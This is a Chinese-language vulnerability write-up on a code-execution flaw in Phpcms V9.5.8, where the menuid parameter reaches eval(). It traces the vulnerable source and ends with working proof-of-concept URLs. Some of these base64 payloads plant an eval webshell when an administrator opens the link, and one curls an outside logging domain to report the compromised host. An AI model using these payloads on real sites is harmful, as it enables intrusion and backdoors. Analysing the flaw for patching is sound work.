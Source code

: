 Phpcms V9.5.8 后台getshell
==========================

一、漏洞简介
------------

二、漏洞影响
------------

Phpcms V9.5.8

三、复现过程
------------

### 漏洞分析

代码位于`/phpcms/modules/content/content.php` 第472-532行

    public function public_categorys() {
        $show_header = '';
        $cfg = getcache('common','commons');
        $ajax_show = intval($cfg['category_ajax']);
        $from = isset($_GET['from']) && in_array($_GET['from'],array('block')) ? $_GET['from'] : 'content';
        $tree = pc_base::load_sys_class('tree');
        if($from=='content' && $_SESSION['roleid'] != 1) { 
            $this->priv_db = pc_base::load_model('category_priv_model');
            $priv_result = $this->priv_db->select(array('action'=>'init','roleid'=>$_SESSION['roleid'],'siteid'=>$this->siteid,'is_admin'=>1));
            $priv_catids = array();
            foreach($priv_result as $_v) {
                $priv_catids[] = $_v['catid'];
            }
            if(empty($priv_catids)) return '';
        }
        $categorys = array();
        if(!empty($this->categorys)) {
            foreach($this->categorys as $r) {
                if($r['siteid']!=$this->siteid ||  ($r['type']==2 && $r['child']==0)) continue;
                if($from=='content' && $_SESSION['roleid'] != 1 && !in_array($r['catid'],$priv_catids)) {
                    $arrchildid = explode(',',$r['arrchildid']);
                    $array_intersect = array_intersect($priv_catids,$arrchildid);
                    if(empty($array_intersect)) continue;
                }
                if($r['type']==1 || $from=='block') {
                    if($r['type']==0) {
                        $r['vs_show'] = "<a href='?m=block&c=block_admin&a=public_visualization&menuid=".$_GET['menuid']."&catid=".$r['catid']."&type=show' target='right'>[".L('content_page')."]</a>";
                    } else {
                        $r['vs_show'] ='';
                    }
                    $r['icon_type'] = 'file';
                    $r['add_icon'] = '';
                    $r['type'] = 'add';
                } else {
                    $r['icon_type'] = $r['vs_show'] = '';
                    $r['type'] = 'init';
                    $r['add_icon'] = "<a target='right' href='?m=content&c=content&menuid=".$_GET['menuid']."&catid=".$r['catid']."' onclick=javascript:openwinx('?m=content&c=content&a=add&menuid=".$_GET['menuid']."&catid=".$r['catid']."&hash_page=".$_SESSION['hash_page']."','')><img src='".IMG_PATH."add_content.gif' alt='".L('add')."'></a> ";
                }
                $categorys[$r['catid']] = $r;
            }
        }
        if(!empty($categorys)) {
            $tree->init($categorys);
                switch($from) {
                    case 'block':
                        $strs = "<span class='\$icon_type'>\$add_icon<a href='?m=block&c=block_admin&a=public_visualization&menuid=".$_GET['menuid']."&catid=\$catid&type=list' target='right'>\$catname</a> \$vs_show</span>";
                        $strs2 = "<img src='".IMG_PATH."folder.gif'> <a href='?m=block&c=block_admin&a=public_visualization&menuid=".$_GET['menuid']."&catid=\$catid&type=category' target='right'>\$catname</a>";
                    break;
     
                    default:
                        $strs = "<span class='\$icon_type'>\$add_icon<a href='?m=content&c=content&a=\$type&menuid=".$_GET['menuid']."&catid=\$catid' target='right' onclick='open_list(this)'>\$catname</a></span>";
                        $strs2 = "<span class='folder'>\$catname</span>";
                        break;
                }
            $categorys = $tree->get_treeview(0,'category_tree',$strs,$strs2,$ajax_show);
        } else {
            $categorys = L('please_add_category');
        }
        include $this->admin_tpl('category_tree');
        exit;
    }

复制 文本

在当前函数开始下个断点

![1.png](resource/PhpcmsV9.5.8后台getshell/media/rId25.png)![2.png](resource/PhpcmsV9.5.8后台getshell/media/rId26.png)

跟到526行：

    $categorys = $tree->get_treeview(0,'category_tree',$strs,$strs2,$ajax_show);

复制 文本

进入了`get_treeview()`函数，跟入进去，

函数位于 `/phpcms/libs/classes/tree.class.php` 第206-239行。

    * @param $myid 表示获得这个ID下的所有子级
    * @param $effected_id 需要生成treeview目录数的id
    * @param $str 末级样式
    * @param $str2 目录级别样式
    * @param $showlevel 直接显示层级数，其余为异步显示，0为全部限制
    * @param $style 目录样式 默认 filetree 可增加其他样式如'filetree treeview-famfamfam'
    * @param $currentlevel 计算当前层级，递归使用 适用改函数时不需要用该参数
    * @param $recursion 递归使用 外部调用时为FALSE
    function get_treeview($myid,$effected_id='example',$str="<span class='file'>\$name</span>", $str2="<span class='folder'>\$name</span>" ,$showlevel = 0 ,$style='filetree ' , $currentlevel = 1,$recursion=FALSE) {
         $child = $this->get_child($myid);
         if(!defined('EFFECTED_INIT')){
            $effected = ' id="'.$effected_id.'"';
            define('EFFECTED_INIT', 1);
         } else {
            $effected = '';
         }
         $placeholder =  '<ul><li><span class="placeholder"></span></li></ul>';
         if(!$recursion) $this->str .='<ul'.$effected.'  class="'.$style.'">';
         foreach($child as $id=>$a) {
     
             @extract($a);
             if($showlevel > 0 && $showlevel == $currentlevel && $this->get_child($id)) $folder = 'hasChildren'; //如设置显示层级模式@2011.07.01
             $floder_status = isset($folder) ? ' class="'.$folder.'"' : '';     
             $this->str .= $recursion ? '<ul><li'.$floder_status.' id=\''.$id.'\'>' : '<li'.$floder_status.' id=\''.$id.'\'>';
             $recursion = FALSE;
             if($this->get_child($id)){
                 eval("\$nstr = \"$str2\";");
                 $this->str .= $nstr;
                 if($showlevel == 0 || ($showlevel > 0 && $showlevel > $currentlevel)) {
                     $this->get_treeview($id, $effected_id, $str, $str2, $showlevel, $style, $currentlevel+1, TRUE);
                 } elseif($showlevel > 0 && $showlevel == $currentlevel) {
                     $this->str .= $placeholder;
                 }
             } else {
                 eval("\$nstr = \"$str\";");
                 $this->str .= $nstr;
             }
             $this->str .=$recursion ? '</li></ul>': '</li>';
         }
         if(!$recursion)  $this->str .='</ul>';
         return $this->str;
     }

复制 文本

这里有个判断：

    if($this->get_child($id))

![3.png](resource/PhpcmsV9.5.8后台getshell/media/rId27.png)

当第一次执行为ture的时候，还是会再次执行`get_treeview`的内容

    $this->get_treeview($id, $effected_id, $str, $str2, $showlevel, $style, $currentlevel+1, TRUE);

第二次执行的时候`$myid`由0变成了1，

这时候的`$newarr`为空，

if就不执行，转而执行elseif和else，而`$str`包含着`menuid`的值，也就是`${@phpinfo()}`
，这时候`eval()` 就执行了php代码。

### 漏洞复现

**常规poc：**`https://www.0-sec.org/index.php?m=content&c=content&a=public_categorys&menuid=${@phpinfo()}`

**进阶版poc：**`https://www.0-sec.org/index.php?m=content&c=content&a=public_categorys&menuid=${@(assert(base64_decode(ZnB1dHMoZm9wZW4oJ3NoZWxsLnBocCcsJ3cnKSwnPD9waHAgZXZhbCgkX1BPU1RbMV0pOycpOw)))}`

> 密码1，这要管理员权限才能代码执行，修改下payload，管理员一访问就在当前域名的首页路径下生成shell。

`print_r(base64_encode("fputs(fopen('shell.php','w'),'<?php eval(\$_POST[2]);');system('curl '.\$_SERVER[\"SERVER_NAME\"].'www.0-sec.org');"));`

> 还有另一种payload，会回显的提醒。自动curl请求你的域名，然后回显网站url
>
> 先输出base64的地址，然后在替换下面的字符串> `https://www.0-sec.org/index.php?m=content&c=content&a=public_categorys&menuid=(${@(assert(eval(base64_decode(ZnB1dHMoZm9wZW4oJ3NoZWxsLnBocCcsJ3cnKSwnPD9waHAgZXZhbCgkX1BPU1RbMl0pOycpO3N5c3RlbSgnY3VybCAnLiRfU0VSVkVSWyJTRVJWRVJfTkFNRSJdLic0MzIxLm5yY3VmOS5jZXllLmlvJyk7))))})`

这个字符串有几个点提醒下自己，` assert()`函数执行执行一句php代码，所以在assert前面加个eval，执行多条语句。

参考链接
--------

> https://www.mrwu.red/web/2723.html
